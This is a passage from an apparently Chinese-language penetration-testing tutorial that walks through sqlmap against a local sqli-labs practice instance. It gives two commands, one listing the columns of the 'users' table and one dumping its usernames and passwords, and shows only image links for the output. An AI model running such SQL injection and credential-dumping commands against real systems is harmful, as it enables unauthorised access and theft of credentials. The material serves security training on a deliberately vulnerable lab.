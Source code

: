  

![img](assets/KxQZvSiUM56oncO.jpg) 

#### 5.3.1.4.**获取表中的字段数**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -D security -T users -columns

![image-20230312173342500](assets/AqJCFi5kLrlbIwD.png)

#### 5.3.1.5.**获取字段内容**

命令：sqlmap -u http://192.168.10.150/sqlilabs/Less-1/?id=1 -D security -T users -C username,password -dump

![img](assets/mB9CqSeUgVhANix.jpg) 
